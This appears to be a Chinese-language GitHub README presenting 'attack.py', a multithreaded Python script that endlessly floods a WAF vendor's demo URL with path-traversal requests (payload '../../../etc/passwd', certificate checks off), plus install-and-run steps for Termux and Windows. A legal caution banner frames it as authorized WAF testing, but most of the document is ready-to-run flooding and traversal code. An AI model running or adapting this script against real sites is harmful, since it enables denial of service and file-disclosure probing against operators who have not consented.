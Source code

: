 # ⚠️ 高频 HTTP 请求测试脚本（含潜在攻击行为）
> [!CAUTION]
> 🚨 **危险警告：请勿非法使用！**
>
> 本脚本用于测试 WAF 防护、路径穿越检测等，仅限在授权环境中使用。
> 
> ⚠️ **如你对未授权站点执行此代码，可能构成违法攻击行为。**
>
> - 本代码仅供学习、研究与授权测试使用
> - 如有非法用途，后果自负，作者与平台概不负责！

---

## 🧠 脚本简介

该 Python 脚本使用多线程方式高频访问目标 URL，模拟路径遍历攻击请求（示例 payload 为 `../../../etc/passwd`），用于测试 Web 防火墙（WAF）对恶意参数的拦截与响应能力。

---

## 🖥️ 使用教程

本脚本支持在 **Windows 环境** 和 **Android Termux** 环境下运行。

---

### 📱 Termux 使用教程（Android 手机）

1. 打开 Termux，更新源和安装环境：

    ```bash
    pkg update && pkg upgrade
    pkg install python git
    pip install requests
    ```

2. 创建一个新脚本文件 `attack.py`：

    ```bash
    nano attack.py
    ```

3. 将下方完整脚本复制粘贴进去，按 `Ctrl+X` → `Y` → 回车 保存退出。

4. 运行脚本：

    ```bash
    python attack.py
    ```

---

### 🪟 Windows 使用教程

1. 安装 [Python 官网版本](https://www.python.org/downloads/windows/)
    - 安装时勾选 “Add Python to PATH”
    - 安装后打开命令提示符 `cmd`

2. 安装依赖库：

    ```bash
    pip install requests
    ```

3. 保存以下代码为 `attack.py` 文件。

4. 双击运行或使用命令：

    ```bash
    python attack.py
    ```

---

## 💻 脚本源码（attack.py）

```python
import requests
import threading
import time
import os
import urllib3

# 忽略 HTTPS 证书警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 目标信息
TARGET_URL = "https://demo.waf-ce.chaitin.cn:10084/hello.html"
PAYLOAD = "../../../etc/passwd"

# 请求参数配置
PARAMS = {
    "payload": PAYLOAD
}
HEADERS = {
    "User-Agent": "WAF-Test-Agent/1.0",
    "Referer": "https://demo.waf-ce.chaitin.cn/"
}

# 自动识别线程数（等于 CPU 核心 * 2）
THREAD_COUNT = os.cpu_count() * 2
print(f"[*] 启用线程数：{THREAD_COUNT}")

# 是否持续攻击
CONTINUOUS_ATTACK = True  # 设置为 False 可控制是否持续运行

# 单线程攻击逻辑
def attack_loop(thread_id):
    count = 0
    while CONTINUOUS_ATTACK:
        try:
            response = requests.get(TARGET_URL, headers=HEADERS, params=PARAMS, timeout=3, verify=False)
            count += 1
            print(f"[线程 {thread_id}] 状态码: {response.status_code}，请求数: {count}")
        except Exception as e:
            print(f"[线程 {thread_id}] 错误: {e}")

# 启动所有线程
def start_attack():
    threads = []
    for i in range(THREAD_COUNT):
        t = threading.Thread(target=attack_loop, args=(i + 1,))
        t.start()
        threads.append(t)

    for t in threads:
        t.join()

if __name__ == "__main__":
    print("[*] 持续攻击开始，按 Ctrl+C 停止")
    start_attack()